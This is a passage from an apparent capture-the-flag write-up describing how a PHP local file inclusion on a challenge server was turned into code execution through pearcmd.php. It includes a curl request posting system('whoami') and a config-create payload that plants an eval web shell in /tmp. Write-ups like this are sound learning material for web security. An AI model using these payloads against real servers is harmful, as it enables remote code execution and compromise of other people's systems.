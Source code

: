 ```html
</script>
</html>(base) [hacker@hackerbook tmp]$ 
```

### Pearcmd exploit

On researching more in pearcmd, I found out that there are other writeups for it already. We could use the payloads there

- [https://ctftime.org/writeup/30236](https://ctftime.org/writeup/30236 "https://ctftime.org/writeup/30236") 
- [https://chowdera.com/2022/02/202202080401099387.html](https://chowdera.com/2022/02/202202080401099387.html "https://chowdera.com/2022/02/202202080401099387.html")

First I tested that the file I'm creating does not exist yet

```
(base) [hacker@hackerbook tmp]$ curl "http://sourcelessguessyweb.chall.seetf.sg:1337/?page=../../../tmp/eval.php"  -d "1=system('whoami');"

<!--
\        /|   |\   /   /~~  /~~\    /~~ |~~ |~~\| /~~\ |   |/~~
 \  /\  / |---| \ /    |__ |    |   |__ |-- |__/||    ||   ||__
  \/  \/  |   |  |     ___| \__/    ___||__ |  \| \__/  \_/ ___|
-->

...

<script>
    let message = `
            `.replace(/[^A-Za-z0-9!?]/g, ' ').trim();

    if (message) {
        let currIdx = 0;
        let messageLength = message.length;

        let parts = document.querySelectorAll('.lazarus-pit > div');
        for (let i = 0; i < parts.length; i++) {
            let partLength = parts[i].innerHTML.length;

            parts[i].innerHTML = '';

            for (let j = 0; j < partLength; j++) {
                parts[i].innerHTML += message[currIdx % messageLength];
                currIdx++;
            }
        }
    }
</script>
</html>
```

Creating a webshell file to access via LFI later. I modified `/test.php?+config-create+/&file=/usr/share/php/pearcmd.php&/<?=eval($_POST[1])?>+/tmp/hello.php`, especially the file path and the LFI parameter to fit the context.
